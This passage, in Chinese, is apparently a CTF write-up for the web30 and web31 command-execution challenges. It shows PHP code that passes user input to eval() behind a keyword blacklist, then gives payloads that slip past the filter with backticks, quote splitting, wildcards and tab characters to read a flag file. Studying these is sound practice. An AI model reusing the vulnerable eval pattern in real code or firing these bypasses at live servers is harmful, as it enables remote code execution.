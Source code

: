 命令执行，需要严格的过滤

本次flag、system和php被过滤了。

```
<?php



error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

说明执行系统命令得使用其他的替代品，比如说echo ``，passthru等。

以**web29更好的解法**同样的原理，构造?c=echo `cp f* 1.txt`;然后直接访问1.txt即可得到flag

或者说，也可以?c=echo `tac f""lag.p""hp`;

不上图了，跟web29差不多。



### web31

这一次增加了cat,sort,shell,'.'和空格的过滤

**空格可以用tab代替，输入其URL编码%09，'.'同理**

```
<?php



error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```

payload：?c=echo%09`tac%09f*`;

直接出答案，或者**复制后再访问**的思路也可以，但攻防的时候这样干确定不会被蓝队抓个正着吗？
